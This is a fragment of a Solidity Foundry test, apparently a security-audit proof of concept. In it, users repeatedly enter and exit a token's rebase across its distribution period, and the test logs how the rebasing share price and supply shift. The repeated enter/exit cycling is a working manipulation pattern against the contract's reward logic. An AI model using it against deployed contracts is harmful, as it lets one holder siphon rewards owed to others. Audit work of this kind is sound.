 ```solidity
        vm.prank(bobby);
        token.enterRebase();

        vm.prank(bobby);
        token.exitRebase();

        vm.prank(bobby);
        token.enterRebase();
        console2.log("rebasingSharePrice after bobby reenteredRebase: ", token.rebasingSharePrice());
        console2.log("rebasingsupply:", token.rebasingSupply());
        console2.log("====================");

        //@audit-info => Run the PoC one time with this line uncommented and see the output
        vm.warp(block.timestamp + token.DISTRIBUTION_PERIOD());

        //@audit-info => The second execution make sure to uncomment the below lines and comment the above line (the vm.warp() line....)
        // uint256 jumps = token.DISTRIBUTION_PERIOD() / 5;
        // vm.startPrank(bobby);
        // skip(jumps);
        // token.exitRebase();
        // skip(jumps);
        // token.enterRebase();
        // skip(jumps);
        // token.exitRebase();
        // skip(jumps);
        // token.enterRebase();
        // skip(jumps);
        // token.exitRebase();
        // skip(jumps);
        // token.enterRebase();
        // skip(jumps);
        // token.exitRebase();
        //  skip(jumps);
        // token.enterRebase();
        // skip(jumps);
        // token.exitRebase();
        //  skip(jumps);
        // token.enterRebase();
        // skip(jumps);
        // token.exitRebase();
        //  skip(jumps);
        // token.enterRebase();
        // skip(jumps);
        // token.exitRebase();
        //  skip(jumps);
        // token.enterRebase();
        // vm.stopPrank();
        // console2.log("rebasingSharePrice after bobby plays around: ", token.rebasingSharePrice());
        // console2.log("rebasingsupply:", token.rebasingSupply());
        // console2.log("====================");

        vm.prank(alice);
        token.exitRebase();
        vm.prank(bobby);
        token.exitRebase();
        console2.log("rebasingSharePrice after exiting rebase: ", token.rebasingSharePrice());
        console2.log("rebasingsupply after exiting rebase:", token.rebasingSupply());
        console2.log("====================");

    }
```